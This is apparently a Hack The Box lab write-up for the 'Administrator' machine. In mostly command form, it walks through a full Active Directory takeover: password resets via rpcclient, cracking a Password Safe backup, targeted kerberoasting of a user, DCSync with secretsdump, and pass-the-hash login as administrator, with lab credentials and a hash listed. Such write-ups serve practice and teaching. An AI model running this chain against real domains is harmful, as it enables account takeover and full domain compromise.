

---
---

# HTB - Administrator - AD Breach

We are given the following account to start with:
Username: **Olivia**
Password: **ichliebedich**

NMAP


- Check creds:

```bash
crackmapexec smb 10.10.11.42 -u "olivia" -p "ichliebedich"

```


- WinRM in:

```bash
evil-winrm -i 10.10.11.42 -u "olivia" -p "ichliebedich"

```


- Run BloodHound:

```bash
bloodhound-python -c all -d administrator.htb -dc dc.administrator.htb -u olivia -p "ichliebedich" -ns 10.10.11.42

```


- Change passwords for users:

```bash
rpcclient -U 'administrator.htb/olivia%ichliebedich' 10.10.11.42

setuserinfo2 michael 23 'Password1'

rpcclient -U 'administrator.htb/michael%Password1' 10.10.11.42

setuserinfo2 benjamin 23 'Password1'

```

- We can remote in with Michael:



And he has PowerView in his Documents folder

- Moving on - We changed Benjamin's password as well

- He can't remote in
- Shares doesn't show anything special

- But he can log in to the ftp server:

```bash
ftp 10.10.11.42
```


- We get a psafe3 file:
Password Safe V3 database


- Searching online, we see hashcat can crack it without extracting the hash first:


```bash
hashcat -m 5200 -a 0 Backup.psafe3 /usr/share/wordlists/rockyou.txt

```


**Backup.psafe3 : tekieromucho**

- Download and open file in PasswordSafe:


alexander : UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

emily : UXLCI5iETUsIBoFVTj8yQFKoHjXmb

emma : WwANQWnmJnGV07WQN8bMS7FMAbjNur

- We have Emily's password --\> which has **GenericWrite** over Ethan --\> Which can DCSync

**<u>From Windows</u>**
- Upload PowerView.ps1 and run:

```bash
. .\Powerview.ps1

Set-DomainObject -Identity ethan -Set @{serviceprincipalname="SPN/ethan}

```


Remove the SPN After Obtaining the Hash:

```bash
Set-DomainObject -Identity target_user_samaccountname -Remove @{serviceprincipalname="SPN/targetuser"}
sudo ntpdate -u 10.10.11.42
impacket-GetUserSPNs administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -dc-ip 10.10.11.42 -request
```


**<u>Or from KALI:</u>**
[TargetedKerberoast:](https://github.com/ShutdownRepo/targetedKerberoast?tab=readme-ov-file)

```bash
python3 targetedKerberoast.py -d administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" --dc-ip 10.10.11.42

```


```bash
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```


**ethan : limpbizkit**

- Ethan has DCSync rights:

```bash
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42

```


```bash
evil-winrm -i 10.10.11.42 -u "administrator" -H "3dc553ce4b9fd20bd016e098d2d2fd2e"

```

